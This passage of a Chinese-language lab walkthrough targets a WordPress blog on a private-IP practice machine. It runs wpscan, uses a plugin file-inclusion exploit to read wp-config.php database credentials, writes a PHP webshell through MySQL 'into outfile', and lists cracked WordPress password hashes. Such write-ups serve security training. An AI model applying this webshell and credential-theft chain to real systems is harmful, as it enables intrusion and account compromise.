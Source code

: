 ```
wpscan --disable-tls-checks --url https://192.168.10.161:12380/blogblog/

找到了theme：bhost 1.2.9
发现了一堆用户：john、elly、peter、barry、heather、garry、harry、scott、kathy、tim
```

同时发现了插件：https://192.168.10.161:12380/blogblog/wp-content/plugins/advanced-video-embed-embed-videos-or-playlists/ 这个插件存在漏洞，可以进行利用。 https://www.exploit-db.com/exploits/39646 可以本地文件包含读取敏感数据。网站使用了 ssl，需要在代码中加上这一段代码：

```
import ssl
ssl._create_default_https_context = ssl._create_unverified_context
```

用 python2 执行后，在 https://192.168.10.161:12380/blogblog/wp-content/uploads/ 目录下出现了一个图片，然后使用 cat 进行查看，得到了 wp-config.php 中的内容。

```
define('DB_NAME', 'wordpress');
define('DB_USER', 'root');
define('DB_PASSWORD', 'plbkac');
define('DB_HOST', 'localhost');
```

### 第 1 种获得 webshell 方法：

可以用 mysql 客户端远程连接数据库：mysql -h 192.168.10.161 -u root -p，查看 show variables like '%sec%'; 发现没有设置，说明我们可以写数据到文件中，可以写一个 webshell 到 web 目录中：

```
select "<?php system($_GET['cmd']);?>" into outfile '/var/www/https/blogblog/wp-content/uploads/shell.php';
```

然后我们访问 https://192.168.10.161:12380/blogblog/wp-content/uploads/shell.php?cmd=id 证明能执行 RCE，就可以执行反弹连接到 nc 进行后续提权操作。

### 第 2 种获得 webshell 方法：

得到了数据库的信息，我们就能用前面发现的 phpmyadmin 进行登陆了，在 wordpress 中的 wp_users 表中获得了用户名和用户哈希数据，使用 John 继续破解明文密码：

```
$P$B7889EMq/erHIuZapMB8GEizebcIy9.   (这个是administrator) --> John:incorrect
$P$BlumbJRRBit7y50Y17.UPJ/xEgv4my0
$P$BTzoYuAFiBA5ixX2njL0XcLzu67sGD0   (这个是administrator)
$P$BIp1ND3G70AnRAkRY41vpVypsTfZhk0   --> washere
$P$Bwd0VpK8hX4aN.rZ14WDdhEIGeJgf10
$P$BzjfKAHd6N4cHKiugLX.4aLes8PxnZ1   --> garry:football
$P$BqV.SQ6OtKhVV7k7h1wqESkMh41buR0   --> harry:monkey
$P$BFmSPiDX1fChKRsytp1yp8Jo7RdHeI1   --> scott:cookie
$P$BZlxAMnC6ON.PYaurLGrhfBi6TjtcA0   --> kathy:coolgirl
$P$BXDR7dLIJczwfuExJdpQqRsNf.9ueN0
$P$B.gMMKRP11QOdT5m1s9mstAUEDjagu1
$P$Bl7/V9Lqvu37jJT.6t4KWmY.v907Hy.
$P$BLxdiNNRP008kOQ.jE44CjSK/7tEcz0
$P$ByZg5mTBpKiLZ5KxhhRe/uqR.48ofs.
$P$B85lqQ1Wwl2SqcPOuKDvxaSwodTY131  (这个是administrator)
$P$BuLagypsIJdEuzMkf20XyS5bRm00dQ0
```
